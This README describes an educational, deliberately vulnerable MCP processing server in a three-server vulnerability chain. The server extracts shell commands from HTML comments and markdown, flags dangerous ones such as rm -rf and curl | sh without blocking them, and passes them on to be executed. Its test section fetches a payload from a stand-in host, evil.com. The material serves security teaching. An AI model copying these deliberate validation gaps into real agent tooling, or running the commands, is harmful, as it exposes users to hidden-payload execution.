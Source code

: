 # Server 2: Processing Server

Educational MCP server demonstrating weak validation in content processing.

## Purpose

Parses markdown and HTML to extract code blocks and commands, but **fails to properly validate or block dangerous content**. This is the second link in the vulnerability chain.

## Vulnerabilities

### 1. HTML Comment Parsing
- Extracts code blocks from HTML comments: `<!-- ```bash ... ``` -->`
- This is where attackers hide payloads in "normal-looking" HTML
- No stripping of comments before parsing

### 2. No Command Blocking
- Identifies dangerous commands (rm -rf, curl | sh, eval, etc.)
- **Flags them with risk levels**
- **But allows them through anyway**
- No user approval required

### 3. No Content Sanitization
- Accepts raw content from Server 1 without validation
- Doesn't strip or escape dangerous characters
- Processes whatever is given

### 4. Risk Analysis Without Enforcement
- Analyzes: safe < low < medium < high < critical
- Logs warnings for high/critical commands
- **Does nothing to prevent execution**

## Tools

### `parse_markdown`

Parses markdown/HTML and extracts code blocks.

**Arguments:**
```json
{
  "content": "string (raw text/HTML)"
}
```

**Returns:**
```json
{
  "blocks": [
    {
      "type": "code_block",
      "language": "bash",
      "code": "command here",
      "source": "html_comment | markdown | inline"
    }
  ],
  "count": 3,
  "timestamp": "ISO 8601"
}
```

**Extraction Sources:**
- HTML comments: `<!-- ```lang\ncode\n``` -->`
- Markdown fences: ` ```lang\ncode\n``` `
- Inline code starting with `$` or `#`

### `extract_commands`

Extracts shell commands from code blocks with risk analysis.

**Arguments:**
```json
{
  "blocks": [CodeBlock]
}
```

**Returns:**
```json
{
  "commands": [
    {
      "code": "rm -rf /tmp/file",
      "language": "bash",
      "risk": "high",
      "flags": ["recursive_delete"],
      "source": "html_comment"
    }
  ],
  "count": 1,
  "riskBreakdown": {
    "safe": 0,
    "low": 0,
    "medium": 0,
    "high": 1,
    "critical": 0
  },
  "warning": "Dangerous commands detected but not blocked"
}
```

**Risk Flags:**
- `recursive_delete_root` (critical)
- `recursive_delete` (high)
- `disk_operation` (critical)
- `remote_execution` (critical)
- `eval` (high)
- `privilege_escalation` (high)
- Many more...

## Build & Run

```bash
# Install dependencies
npm install

# Build
npm run build

# Development mode
npm run dev

# Production mode
npm start
```

## Testing

Test with payload from Server 1:

```bash
# Get malicious content from Server 1
echo '{"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"fetch_content","arguments":{"url":"http://evil.com/malicious"}}}' \
  | node ../01-unsafe-input-server/dist/index.js 2>/dev/null \
  | jq -r '.result.content[0].text' \
  > /tmp/server1-output.json

# Parse it with Server 2
CONTENT=$(cat /tmp/server1-output.json | jq -r '.content')
echo "{\"jsonrpc\":\"2.0\",\"id\":2,\"method\":\"tools/call\",\"params\":{\"name\":\"parse_markdown\",\"arguments\":{\"content\":$CONTENT}}}" \
  | node dist/index.js
```

## Attack Flow Position

```
Server 1          Server 2            Server 3
(Fetch)     -->   (Process)    -->    (Execute)
  |                  |                   |
No validation    Weak validation    Accepts from #2
  |                  |                   |
  └──────────────────┴───────────────────┘
            Vulnerability Chain
```

## The Critical Flaw

This server demonstrates the **"trust boundary violation"**:

1. **Trusts input from Server 1** without re-validation
2. **Analyzes risk but doesn't act on it**
3. **Passes dangerous commands to Server 3**
4. Assumes Server 3 will validate (it doesn't!)

In secure systems, **every layer must validate**.

## Security Lessons

1. **Defense in Depth**: Don't rely on upstream validation
2. **Policy Enforcement**: Risk analysis is useless without blocking
3. **User Approval**: High-risk operations need human confirmation
4. **Content Sanitization**: Strip dangerous content before processing
5. **Fail Secure**: When in doubt, block

## Secured Version

See `servers-secured/02-processing-server` for hardened implementation with:
- Command blocklist enforcement
- User approval for risky commands
- Shell metacharacter escaping
- Command length limits
- Audit logging
